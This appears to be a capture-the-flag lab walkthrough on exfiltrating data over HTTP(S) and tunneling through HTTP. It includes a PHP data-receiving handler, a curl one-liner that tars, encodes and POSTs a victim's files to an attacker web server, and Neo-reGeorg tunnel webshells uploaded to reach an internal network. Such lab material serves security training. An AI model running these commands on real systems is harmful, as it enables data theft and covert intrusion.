


# Exfiltrate using HTTP(S)

Using the `HTTP/HTTPS` protocol to exfiltrate data from a victim to an attacker's machine requires an attacker 
to have control over a webserver with a server-side programming language installed and enabled. It is challenging 
to detect for the blue team if using the POST HTTP method in the data exfiltration (with the GET request, all 
parameters are registered into the log file).

* POST requests are never cached
* POST requests do not remain in the browser history
* POST requests cannot be bookmarked
* POST requests have no restrictions on data length

## HTTP data exfiltration

To exfiltrate data over the HTTP protocol:

* An attacker sets up a web server with a data handler (`web.thm.com` and a `contact.php` page as a data handler).
* A C2 agent or an attacker sends the data (using the `curl` command).
* The webserver receives the data and stores it (`contact.php` receives the POST request and stores it into `/tmp`).
* The attacker logs into the webserver to have a copy of the received data.

The `contact.php` in `/var/www/html` on `web.thm.com` to handle POST requests via a file parameter and storing the received data in the `/tmp` directory as 
`http.bs64` file name:

```text
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

From the jumphost `ssh` into the `victim1.thm.com` machine with the given credentials:

    thm@jump-box:~$ ssh thm@victim1.thm.com

Check the data:

    thm@victim1:~$ ls -l

Send POST data via curl:

    thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

From the victim1 or jump machine, log in to the webserver, `web.thm.com`, and check the `/tmp` directory:

    thm@victim1:~$ ssh thm@web.thm.com 
    thm@web:~$ ls -l /tmp/

Fix the broken `http.bs64` file (broken due to the URL encoding over HTTP). Using the sed command, replace the spaces 
with `+` characters to make it a valid `base64` string:

    thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64

Restore the data:

    thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -

## HTTPS communications

One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server. 
Apply the same technique as used for HTTP on a web server with SSL enabled, all transmitted data will be encrypted.  

## HTTP Tunneling

|  |
|:--:|
| With tunneling over the HTTP protocol technique other protocols are encapsulated and <br>data can be sent back and forth via the HTTP protocol. |

Use the [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to create a communication channel to access the 
internal network devices:

```text
root@kali:# cd /opt
root@kali:# ls
firmware-mod-kit  kerbrute   Neo-reGeorg-master.zip  Teeth
impacket          microsoft  nessus                  xplico

root@kali:# unzip Neo-reGeorg-master.zip 
Archive:  Neo-reGeorg-master.zip
a9495cabdd59dc1df645742c99c2c7a02702dbf8
   creating: Neo-reGeorg-master/
  inflating: Neo-reGeorg-master/.gitignore  
  inflating: Neo-reGeorg-master/CHANGELOG-en.md  
  inflating: Neo-reGeorg-master/CHANGELOG.md  
  inflating: Neo-reGeorg-master/LICENSE  
  inflating: Neo-reGeorg-master/README-en.md  
  inflating: Neo-reGeorg-master/README.md  
  inflating: Neo-reGeorg-master/neoreg.py  
   creating: Neo-reGeorg-master/templates/
  inflating: Neo-reGeorg-master/templates/NeoreGeorg.java  
  inflating: Neo-reGeorg-master/templates/tunnel.ashx  
  inflating: Neo-reGeorg-master/templates/tunnel.aspx  
  inflating: Neo-reGeorg-master/templates/tunnel.jsp  
  inflating: Neo-reGeorg-master/templates/tunnel.jspx  
  inflating: Neo-reGeorg-master/templates/tunnel.php  

root@kali:# cd Neo-reGeorg-master 
                                                                                
root@kali:# ls
CHANGELOG-en.md  LICENSE    README-en.md  templates
CHANGELOG.md     neoreg.py  README.md
```

Generate an encrypted client file to upload to the victim web server:

    root@kali:# python3 neoreg.py generate -k thm

          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx

The command generates encrypted tunneling clients with thm key in the `neoreg_servers/` directory. There are many 
extensions, including for PHP, ASPX, JSP, etc. 

To access the uploader machine, visit `https://LAB_WEB_URL.p.thmlabs.com/uploader`:

|  |
|:--:|
| Upload the `tunnel.php` file via the uploader machine. <br>Use `admin` as the key to allow upload into `uploader.thm.com` |

Use `neoreg.py` to connect to the client, provide the key to decrypt the tunneling client, and the URL to the 
`tunnel.php` just uploaded on the uploader machine.

    root@kali:# python3 neoreg.py -k thm -u http://10.10.177.27/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    +------------------------------------------------------------------------+
      Log Level set to [ERROR]
      Starting SOCKS5 server [127.0.0.1:1080]
      Tunnel at:
        http://10.10.177.27/uploader/files/tunnel.php
    +------------------------------------------------------------------------+

Ready to use the tunnel connection as a proxy binds on our local machine, 127.0.0.1, on port 1080:
 
    root@kali:# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80
    <p><a href="/flag">Get Your Flag!</a></p>
                                                                                
    root@kali:# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag

Done.